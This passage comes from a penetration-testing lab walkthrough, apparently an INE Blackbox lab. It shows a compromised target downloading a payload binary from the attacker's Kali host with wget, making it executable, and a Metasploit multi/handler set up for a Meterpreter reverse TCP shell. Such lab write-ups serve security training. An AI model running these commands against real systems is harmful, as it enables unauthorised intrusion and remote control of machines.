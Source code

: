 We will start a Python-based file server on the Kali instance and serve the generated payload binary:

Command:

python3 -m http.server 80

![](../media/Blackbox%20lab%20INE_61.png)

Now we can download the payload binary on the compromised target machine usingwgetutility on the reverse shell session we had gained in Step 12.

Commands:

wget http://192.196.85.2/payload.bin

file payload.bin

chmod +x payload.bin

![](../media/Blackbox%20lab%20INE_62.png)

The above commands download the payload binary from the Kali instance, check the file type (just confirming if the file is properly downloaded or got corrupted) and make it executable.

Note: If you check the Python-based file server, you can notice the request to download the payload file here as well:

![](../media/Blackbox%20lab%20INE_63.png)

This can become handy in case of blind exploitation scenarios where we can execute commands but cannot see the output.

Step 16: Gaining a meterpreter session on the target machine.

So by now everything is ready on the target machine. Now all we need to do is set up a multi handler on the Kali instance and gain the meterpreter session by executing the payload on the target machine.

Use the following commands to setup a multi handler on the Kali instance:

Commands:

msfconsole -q

use exploit/multi/handler

set PAYLOAD linux/x64/meterpreter/reverse_tcp

set LHOST 192.196.85.2

set LPORT 5555

run

![](../media/Blackbox%20lab%20INE_64.png)

The above set of commands would have started the metasploit framework and configured the options forexploit/multi/handlermodule: - The payload is set tolinux/x64/meterpreter/reverse_tcp(we generated this payload using msfvenom) - LHOST and LPORT are set to the same values we used for generating the payload via msfvenom.
